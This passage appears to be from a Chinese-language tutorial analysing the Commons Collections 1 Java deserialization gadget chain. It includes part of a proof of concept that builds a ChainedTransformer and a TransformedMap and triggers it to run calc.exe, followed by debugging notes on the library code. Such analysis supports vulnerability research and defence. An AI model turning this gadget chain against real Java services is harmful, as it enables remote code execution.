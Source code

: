 ```java
        };

        //将transformers数组存入ChaniedTransformer这个继承类
        Transformer transformerChain = new ChainedTransformer(transformers);

        //创建Map并绑定transformerChina
        Map innerMap = new HashMap();
        innerMap.put("value", "value");
        //给予map数据转化链
        Map outerMap = TransformedMap.decorate(innerMap, null, transformerChain);

        //触发漏洞
        Map.Entry onlyElement = (Map.Entry) outerMap.entrySet().iterator().next();
        //outerMap后一串东西，其实就是获取这个map的第一个键值对（value,value）；然后转化成Map.Entry形式，这是map的键值对数据格式
        onlyElement.setValue("foobar");
    }
}
```
执行效果如下
```java
Runtime.getRuntime().exec("calc.exe");
```
![image.png](./Commons Collections1分析前置知识.assets/2023_05_19_10_37_47_gYKkJneA.png)

以上代码包含了三要素中的前两项：

1. payload
2. 反序列化链

为什么没有readObject复写利用点？
这个poc的复写利用点是`sun.reflect.annotation.AnnotationInvocationHandler`的`readObject()` 但是我们先精简payload和利用链，最后再加上readObject复写点
### 调试
调试以上poc，得到两种调用栈

![image.png](./Commons Collections1分析前置知识.assets/2023_05_19_10_37_48_vi8ONq02.png)

![image.png](./Commons Collections1分析前置知识.assets/2023_05_19_10_37_48_f2kYa3ih.png)



#### Map.Entry
Map.Entry 其实就是键值对的数据格式，其中setValue函数如下
```java
// AbstractInputCheckedMapDecorator.class
public Object setValue(Object value) {
    value = this.parent.checkSetValue(value);
    return super.entry.setValue(value);
}
```
#### TransformedMap
TransformedMap是一种重写map类型的set函数和Map.Entry类型的setValue函数去调用转换链的Map类型。
```java
// TransformedMap.class
protected TransformedMap(Map map, Transformer keyTransformer, Transformer valueTransformer) {
    super(map);
    this.keyTransformer = keyTransformer;
    this.valueTransformer = valueTransformer;
}
```
首先看他的构造函数，所对应实例化outerMap，`Map outerMap = TransformedMap.decorate(innerMap, null, transformerChain);`
其中对应的如下函数对应的`this.valueTransformer` 就是传入的`transformerChain`，而transformerChain 就是定义的transformers数组
```java
// TransformedMap.class
```